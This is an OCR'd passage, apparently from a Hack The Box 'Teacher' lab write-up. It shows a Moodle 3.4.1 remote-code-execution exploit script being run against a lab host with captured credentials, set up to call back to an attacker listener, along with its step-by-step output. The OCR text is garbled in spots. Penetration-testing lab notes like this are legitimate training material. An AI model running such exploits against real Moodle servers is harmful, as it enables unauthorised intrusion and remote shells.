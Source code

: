 ![](Maszyny/Linux/Teacher/Pasted%20image%2020210914220833.png)

-(kali kali)-[/htb/teacher/moodlescan]
php 46551.php url=http://10.10.10.153/moodle user=Giovanni pass=Th4CoolTheacha# ip=10.10.14.2 port=1010 course=2
* Noodle [Moodle RCE] (v3.4.1) *
*
[!] Make sure you have a listener
[!] at 10.10.14.2:1010
[*] Logging in as user Giovanni with password Th4cool Theacha!
[+] Successful Login
[>] Moodle Session qljnvu2k5 igoøvrbkøknh2u2t7
[>] Moodle Key qA021Rr5bY
[*] Loading Course ID 2
[+] Successfully Loaded Course
[*] Enable Editing
[+] Successfully Enabled Course Editing
[*] Adding Quiz
[+] Successfully Added Quiz
[*] Configuring New Quiz
[+] Successfully Configured Quiz
[*] Loading Edit Quiz Page
[+] Successfully Loaded Edit Quiz Page
[*] Adding Calculated Question
[+] Successfully Added Calculation Question
[*] Adding Evil Question
[+] Successfully created Evil Question
[*] Sending Exploit
